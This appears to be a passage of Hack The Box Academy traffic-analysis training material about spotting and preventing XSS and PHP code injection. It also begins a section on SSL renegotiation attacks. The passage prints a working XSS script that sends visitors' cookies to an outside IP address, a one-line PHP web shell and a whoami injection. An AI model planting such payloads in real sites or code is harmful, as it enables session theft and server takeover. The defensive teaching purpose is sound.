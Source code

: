 ![HTTP GET request with cookie parameter, resulting in 404 error response.](https://academy.hackthebox.com/storage/modules/229/2-XSS_.png)

Getting down to the root of where this code is originating can be somewhat tricky. However, suppose we had a user comment area on our web server. We might notice one of the comments looks like the following.

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>

```

This would be successful cross-site scripting from the attacker, and as such we would want to remove this comment quickly, and even in most cases bring our server down to fix the issue before it persists. We might also notice in some cases, that an attacker might attempt to inject code into these fields like the following two examples.

In order for them to get command and control through PHP.

```php
<?php system($_GET['cmd']); ?>

```

Or to execute a single command with PHP:

```php
<?php echo `whoami` ?>

```

#### Preventing XSS and Code Injection

In order to prevent these threats after we detect them, we can do the following.

1. `Sanitize and handle user input in an acceptable manner.`

2. `Do not interpret user input as code.`


# SSL Renegotiation Attacks

**Related PCAP File(s)**:

- `SSL_renegotiation_edited.pcapng`

* * *

Although HTTP traffic is unencrypted, we sometimes will run into encrypted HTTPs traffic. As such, knowing the indicators and signs of malicious HTTPs traffic is crucial to our traffic analysis efforts.
